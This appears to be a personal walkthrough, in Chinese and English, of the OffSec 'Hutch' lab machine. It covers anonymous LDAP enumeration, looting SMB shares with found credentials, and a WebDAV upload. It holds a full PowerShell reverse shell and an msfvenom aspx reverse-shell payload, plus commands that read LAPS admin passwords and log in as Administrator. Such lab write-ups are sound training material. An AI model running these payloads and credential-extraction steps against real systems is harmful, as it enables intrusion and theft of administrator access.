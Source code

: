 ```SQL
fmcsorley
```

```SQL
CrabSharkJellyfish192
```

[[389]]389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)

许多 LDAP 服务器，尤其是一些默认配置的服务器，会允许匿名访问。这意味着在不提供任何用户名或密码的情况下，仍然可以通过简单身份验证方式查询某些基本信息。这通常是为了方便目录查询和服务发现，而这些信息可能对系统管理员无害，但在某些情况下，攻击者可以利用这些公开信息进行进一步的渗透。

在 Hutch 案例中，LDAP 服务器很可能允许匿名用户查询基本的目录信息，正因为如此，不需要用户名和密码也能够查询到对象信息。匿名访问通常是只读的，提供有限的信息（如用户列表、组成员身份等），但是这些信息对攻击者来说仍然非常有用。

```SQL
ldapsearch -x -H ldap://$IP -D "DC=hutch,DC=offsec" -W -b "DC=hutch,DC=offsec" "(objectClass=*)" | grep -i password
```

```SQL
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H ldap://$IP "(objectclass=*)"  >> ldap

ldapsearch -v -x -b "DC=hutch,DC=offsec" -H ldap://$IP "(objectclass=*)" 
```

- `**ldapsearch**`: This is a command-line utility used to query an LDAP directory for information.
- `**v**`: This enables verbose mode. It provides detailed output about the operation, including the search process, which is helpful for debugging or understanding how the search proceeds.
- `**x**`: This option tells `ldapsearch` to use **simple authentication** instead of SASL (Simple Authentication and Security Layer). Simple authentication uses a basic method like username and password (or anonymous if not specified).
- `**b "DC=hutch,DC=offsec"**`: This defines the **base distinguished name (DN)** for the search. In this case:
    - `DC=hutch` and `DC=offsec` refer to the **domain components** of the directory, essentially specifying the starting point (or root) of the LDAP tree where the search begins.
    - This base DN indicates that you are searching within the domain `hutch.offsec`.
- `**H ldap://$IP**`: This specifies the LDAP **host URI** to connect to. The `$IP` is a variable that holds the IP address of the LDAP server you want to query. For example, if the IP address of the server is `192.168.189.122`, you would replace `$IP` with `192.168.189.122`.
- `**"(objectclass=*)"**`: This is the **filter** for the search. The filter `(objectclass=*)` is a very broad filter that matches **any object class**, effectively retrieving **all entries** in the LDAP directory starting from the base DN you specified (`DC=hutch,DC=offsec`).

  

```SQL
grep -i "password" ldap
```

for share in SYSVOL NETLOGON; do smbclient [//192.168.189.122/$share](https://192.168.189.122/$share) -U 'fmcsorley%CrabSharkJellyfish192' -c 'prompt OFF;recurse ON;mget *'; done

  

```SQL
smbclient ////$IP/ -U 'fmcsorley%CrabSharkJellyfish192' -c 'prompt OFF;recurse ON;mget *'
```

  

we can try Cadaver, because:

80/tcp open http Microsoft IIS httpd 10.0  
| http-webdav-scan:  
| Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK  
| Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK  
| Server Type: Microsoft-IIS/10.0  
| Server Date: Fri, 20 Sep 2024 04:38:32 GMT  
|_ WebDAV type: Unknown  
|_http-server-header: Microsoft-IIS/10.0_  
_| http-methods:_  
_|_ Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT

The default directory for Internet Information Services (IIS) on a Windows server is typically the **Inetpub** folder. [This folder is usually located at](https://stackify.com/what-is-inetpub/) `**[C:\inetpub](https://stackify.com/what-is-inetpub/)**`[1](https://stackify.com/what-is-inetpub/). Within this directory, the **wwwroot** subfolder is where the default website files are stored.

  

```SQL
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.45.157',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```SQL
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LIP  LPORT=593  --platform Windows -a x64 -f aspx -o shell.aspx
```

```SQL
curl http://$IP/shell.aspx
```

In this case, I see a folder called **LAPS**, which likely refers to **Local Administrator Password Solution** (LAPS), a Microsoft tool used for managing local administrator passwords securely.

- **LAPS (Local Administrator Password Solution)**:  
    LAPS is a Microsoft tool designed to manage local administrator passwords for domain-joined computers. It periodically changes the local admin passwords and stores them in the **ms-MCS-AdmPwd** attribute within the computer's AD object.
- **Misconfigured Active Directory Permissions**:
    - **ms-MCS-AdmPwd** is a sensitive attribute, and it is essential that access to it is restricted to a few highly privileged users, such as domain administrators.
    - In this case, it seems that the user `**fmcsorley**` has permission to read this attribute, even though they might not have sufficient privileges to be trusted with sensitive information like admin passwords. This is likely due to improper configuration of Active Directory's **Access Control Lists (ACLs)**.
- **Insecure ACL Configuration**:
    - **Access Control Entries (ACEs)** within AD determine which users or groups can read specific attributes, such as **ms-MCS-AdmPwd**.
    - If AD permissions are misconfigured, regular users or non-admin accounts may be able to read sensitive attributes, such as the local admin password stored by LAPS. This misconfiguration is a common issue in environments where least privilege principles are not enforced.

```SQL
ldapsearch -x -H "ldap://$IP"  -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(
ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

after get pw, ca try

  

```SQL
evil-winrm -i $IP -u Administrator -p '8v@][\#XH{Y.H6{'

```

```SQL
python3 /usr/local/bin/psexec.py hutch.offsec/administrator:'8v@][\#XH{Y.H6{'@$IP
```

```SQL
smbclient //$IP/C$ -U Administrator

more proof.txt
```